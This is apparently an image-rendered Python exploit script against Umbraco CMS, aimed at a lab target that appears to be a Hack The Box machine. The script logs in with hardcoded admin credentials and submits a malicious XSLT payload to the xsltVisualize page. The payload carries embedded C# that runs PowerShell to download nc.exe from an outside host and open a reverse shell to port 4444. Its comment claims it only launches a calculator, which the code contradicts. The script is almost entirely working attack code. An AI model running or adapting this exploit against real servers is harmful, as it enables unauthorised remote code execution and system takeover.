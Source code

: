```python
import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.14.26:8080/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.14.26 4444 -e powershell"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
